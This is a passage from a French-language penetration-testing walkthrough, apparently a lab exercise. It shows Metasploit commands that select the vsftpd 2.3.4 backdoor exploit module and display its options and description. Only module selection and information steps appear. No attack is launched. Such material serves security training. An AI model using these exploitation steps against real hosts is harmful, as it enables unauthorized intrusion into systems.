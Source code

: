 
### 3. Sélection du Module d'Exploitation

```

use 5
```

**Sortie:**
```
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```

*Remarque*: Le module **VSFTPD 2.3.4 Backdoor** a été sélectionné avec succès.

---

### 4. Affichage des Informations du Module

```

show info
```

**Sortie:**
```
   Name: VSFTPD v2.3.4 Backdoor Command Execution
 Module: exploit/unix/ftp/vsftpd_234_backdoor
 Platform: Unix
     Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
    Disclosed: 2011-07-03

Provided by:
  hdm <x@hdm.io>
  MC <mc@metasploit.com>

Available targets:
      Id  Name
      --  ----
  =>  0   Automatic

Check supported:
  No

Basic options:
  Name    Current Setting  Required  Description
  ----    ---------------  --------  -----------
  RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT   21               yes       The target port (TCP)

Payload information:
  Space: 2000
  Avoid: 0 characters

Description:
  This module exploits a malicious backdoor that was added to the       VSFTPD download
  archive. This backdoor was introduced into the vsftpd-2.3.4.tar.gz archive between
  June 30th 2011 and July 1st 2011 according to the most recent information
  available. This backdoor was removed on July 3rd 2011.

References:
  OSVDB (73573)
```